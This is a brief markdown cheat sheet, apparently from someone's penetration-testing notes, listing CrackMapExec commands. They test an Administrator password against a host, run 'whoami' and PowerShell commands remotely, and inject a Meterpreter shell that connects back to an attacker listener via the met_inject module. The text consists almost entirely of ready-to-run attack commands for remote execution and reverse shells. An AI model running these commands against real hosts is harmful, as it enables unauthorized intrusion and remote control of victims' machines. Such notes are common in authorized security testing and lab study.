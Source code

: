 ```yaml
---
title: crackmapexec
author: i4
date: M11-02-2022
---
```

### Testing creds
`crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami`
#### Execute powershell commands
`crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable'`
#### With meterpreter shell
`sudo cme 192.168.215.104 -u 'Administrator' -p 'P@ssw0rd' -M met_inject -o LHOST=192.168.215.109 LPORT=444`

